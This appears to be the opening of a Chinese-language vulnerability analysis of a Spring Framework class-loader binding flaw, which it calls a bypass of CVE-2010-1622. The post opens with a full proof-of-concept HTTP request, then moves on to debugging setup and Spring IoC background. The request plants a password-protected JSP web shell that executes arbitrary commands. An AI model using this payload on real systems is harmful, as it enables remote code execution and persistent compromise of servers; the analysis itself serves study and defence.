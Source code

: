 先上poc吧，虽然大家已经有了

```php
POST / HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
suffix: %>
prefix: <%
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 803

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Diif(%22023%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20=%20Runtime.getRuntime().exec(request.getParameter(%22i%22)).getInputStream();%20int%20a%20=%20-1;%20byte%5B%5D%20b%20=%20new%20byte%5B2048%5D;%20out.print(%22%3Cpre%3E%22);%20while((a=in.read(b))!=-1)%7B%20out.println(new%20String(b));%20%7D%20out.print(%22%3C%2fpre%3E%22);%20%7D%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=a&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat
```

这个是CVE-2010-1622的绕过，具体分析可以看[SpringMVC框架任意代码执行漏洞(CVE-2010-1622)分析](http://rui0.cn/archives/1158?vytuli=tc1oj2)。 &lt;br /&gt;  
文章啰嗦一点，看得懂就行  
&lt;a name="DeMFU"&gt;&lt;/a&gt;

0x00 环境搭建
=========

我是远程调试的，直接debug一直有报错。 &lt;br /&gt;  
首先修改tomcat配置，win环境在catalina.bat增加&lt;br /&gt;  
`agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"`&lt;br /&gt;  
idea直接打开tomcat所在目录，添加框架支持为maven，然后其中我又新建了一个文件夹为project，这个也添加支持maven，效果如下：&lt;br /&gt;

![image.png](https://shs3.b.qianxin.com/butian_public/f355130602cad32161773081053a9ff320263bdea157f.jpg)&lt;br /&gt;  
然后spring里面写代码，生成war包，直接放到webapps里面即可，启动tomcat会自动部署（默认热部署，添加新的war过一会就自动部署好了），然后idea添加远程debug&lt;br /&gt;

![image.png](https://shs3.b.qianxin.com/butian_public/f907811718fde9ca6d84ee1614b92f769824b726ec642.jpg)&lt;br /&gt;  
接着愉快调试吧  
&lt;a name="wK97r"&gt;&lt;/a&gt;

0x01 前置知识
=========

&lt;a name="XIc6y"&gt;&lt;/a&gt;

spring ioc
----------

这个东西我一句两句也解释不清楚，看文章吧，当时在学校学的时候就懵懵的，控制反转说白了就是将pojo和bean交给spring来处理，我只需关心值的设置与取用，无需关心怎么设置与取出的&lt;br /&gt;  
[java对象 POJO和JavaBean的区别](https://www.jianshu.com/p/224489dfdec8)，[Spring(2)——Spring IoC 详解](https://www.cnblogs.com/wmyskxz/p/8824597.html)，[Spring IoC有什么好处呢？](https://www.zhihu.com/question/23277575)  
&lt;a name="YcHmX"&gt;&lt;/a&gt;
